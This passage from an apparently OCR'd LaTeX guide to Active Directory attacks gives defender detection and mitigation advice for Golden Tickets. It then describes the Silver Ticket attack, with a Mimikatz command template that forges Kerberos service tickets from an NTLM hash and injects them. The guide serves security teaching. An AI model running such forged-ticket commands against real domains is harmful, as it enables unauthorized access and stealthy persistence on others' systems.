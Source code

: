 \subsection{Defender View}
\begin{itemize}
    \item \textbf{Detection:}
    \begin{itemize}
        \item Look for TGTs with unusually long lifespans or tickets issued for inactive accounts.
    \end{itemize}
    \item \textbf{Mitigation:}
    \begin{itemize}
        \item Regularly reset the \texttt{krbtgt} account password (twice).
        \item Follow tiered administration and limit Domain Admin exposure.
    \end{itemize}
\end{itemize}

\section{6. Silver Ticket Attack}

\subsection{Attacker View}
A Silver Ticket Attack allows attackers to forge Kerberos service tickets (TGS) without contacting the domain controller, enabling access to specific services like CIFS or HTTP using only the service account's NTLM hash.

\textbf{Steps:}
\begin{lstlisting}
Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> `
/sid:<DomainSID> /target:<TargetMachine> /service:<ServiceType> `
/rc4:<SPN_Account_NTLM_Hash> /user:<UserToImpersonate> /ptt"'
\end{lstlisting}

\textbf{Impact:} Stealthy persistence against specific services; avoids DC interaction and TGT request detection.

